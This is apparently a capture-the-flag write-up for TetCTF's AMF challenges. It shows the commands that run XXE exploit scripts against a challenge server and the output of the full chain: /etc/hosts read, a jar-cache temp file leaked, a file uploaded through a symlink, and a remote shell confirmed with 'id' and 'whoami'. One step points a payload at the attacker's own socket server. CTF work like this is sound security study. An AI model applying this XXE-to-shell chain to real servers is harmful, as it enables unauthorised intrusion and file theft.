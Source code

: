 # AMF1

python amf_xxe.py "http://139.162.40.239:1337/tetctf/messagebroker/amf" foo tetctf_v1


# AMF2

## on your server run: 
    python jar_xxe_server.py

### edit the content of payload `trigger_jar_xxe` in `amf_xxe.py` to point to your socket server

python tetctf_exp.py 


    [+] trigger_amf_xxe etc_hosts
    etc_hosts output: 
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    172.17.0.3	02688b965fbd (No such file or directory)...Bwlb.....
    [+] Done
    [+] trigger_amf_xxe trigger_jar_xxe
    [+] trigger_amf_xxe get_tmp_filename
    get_tmp_filename output: 
    jar_cache7343514775749524690.tmp
    safeToDelete.tmp (No such file or directory)...Bwlb.2...
    [+] Done
    [+] tmp filename: jar_cache7343514775749524690.tmp
    [+] generate_amf_setter_payload
    [+] trigger_setter
    AppendToGatewayUrl,;jsessionid=A9A1197B578F257C267FABA24A88FF87	/onStatus 
    C	coderootCausedetailsmessage#Server.ProcessinThe supplied destination id is not registered with any service.
    [+] upload_via_symlink
    { "serviceResponse":"true", "serviceError":null, "serviceName":"File Upload", "opName":"fileUpload" }
    [+] done, enjoy shell
    /peterjson@remote_shell/~.~
    id

    uid=1000(service) gid=1000(service) groups=1000(service)


    None
    /peterjson@remote_shell/~.~
    whoami       

    service



